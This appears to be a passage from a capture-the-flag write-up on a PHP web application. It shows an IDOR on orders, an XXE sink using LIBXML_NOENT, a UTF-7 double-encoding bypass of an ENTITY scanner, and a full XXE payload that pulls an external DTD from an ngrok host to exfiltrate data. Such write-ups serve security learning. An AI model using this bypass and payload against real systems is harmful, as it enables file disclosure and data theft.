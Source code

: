 By submitting an order with another user’s ID, we can validate that user’s order.

Next, we can exploit an XXE via the xml parameter which contains the order information.

<ins>File:</ins> `src/app/src/Api/Rest/RestController.php`

```php
$xml = simplexml_load_string($xmlSanitized, 'SimpleXMLElement', LIBXML_NOENT);
```

However, there is a check to validate the XML.

<ins>File:</ins> `src/app/src/Api/Rest/RestController.php`

```php
$xmlSanitized = $this->xmlScanner->scan($data["xml"]);
```

The `scan` function verifies that the XML is valid and does not contain external entities.

<ins>File:</ins> `src/app/src/Security/XmlScanner.php`

```php
public function scan($xml): string
{
    $pattern = '/\\0*' . implode('\\0*', str_split($this->pattern)) . '\\0*/';

    $xml = "$xml";
    if (preg_match($pattern, $xml)) {
        throw new Exception('Before UTF-8 conversion, detected use of ENTITY in XML, spreadsheet file load() aborted to prevent XXE/XEE attacks');
    }
    $xml = $this->toUtf8($xml);
    if (preg_match($pattern, $xml)) {
        var_dump($xml);
        throw new Exception('After UTF-8 conversion, detected use of ENTITY in XML, spreadsheet file load() aborted to prevent XXE/XEE attacks');
    }

    return $xml;
}
```

This function checks if the XML contains external entities and replaces them with a null character. It then converts the XML to UTF-8 and performs the check again.

To bypass this verification, we use a trick that bypasses the UTF-8 conversion. We double-encode the XML in UTF-7 and use the notation `encoencoding="UTF7"ding="UTF-7"` so that, initially, the `encodining` field is removed by the `scan` function and our encoding becomes `encoding="UTF-7"`.

Thus, our initial payload is:
```xml
<?xml version=\"1.0\" encoencoding=\"UTF7\"ding=\"UTF-7\" standalone=\"yes\"?>
+-ADw-!DOCTYPE order [ <!ENTITY % pe SYSTEM \"https://5515-81-64-59-65.ngrok-free.app/exploit.dtd\"> %pe; %param1; ]>
<order>
<shipping_address>
<name>poc</name>
<address>&external;</address>
<zipcode>poc</zipcode>
<city>poc</city>
<country>poc</country>
<phone>poc</phone>
</shipping_address>
</order>
```
